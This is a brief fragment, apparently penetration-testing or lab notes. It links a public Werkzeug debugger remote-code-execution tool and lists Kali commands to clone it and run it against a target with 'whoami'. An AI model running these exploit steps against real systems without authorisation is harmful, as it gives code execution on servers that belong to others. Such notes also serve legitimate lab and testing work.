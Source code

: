 https://github.com/its-arun/Werkzeug-Debug-RCE
```bash - kali
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
```
```bash - kali
cd Werkzeug-Debug-RCE
```
```bash - kali
chmod +x werkzeug.py
```
```bash - kali
python2 werkzeug.py $TARGET whoami
```